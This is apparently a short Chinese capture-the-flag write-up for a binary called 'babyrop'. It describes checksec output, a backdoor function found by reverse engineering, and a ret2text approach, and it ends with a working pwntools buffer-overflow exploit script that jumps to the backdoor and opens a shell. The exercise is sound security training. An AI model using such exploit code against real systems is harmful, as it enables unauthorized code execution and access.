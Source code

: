 使用checksec 检查程序，就开了一个栈不可执行

![image-20220428184400250](wp/image-20220428184400250.png)

逆向程序发现后门

![image-20220428184254733](wp/image-20220428184254733.png)

查看主程序逻辑

![image-20220428184603898](wp/image-20220428184603898.png)

那么就是一个很简单的ret2text了

```python
# -*- encoding: utf-8 -*-
from pwn import * 
binary = './babyrop'

elf = ELF(binary)
libc = elf.libc

p = process(binary)
# p = remote(host,port)

backdoor =0x401196
payload = 'a'*0x28 + p64(backdoor)

p.send(payload)

p.interactive()
```

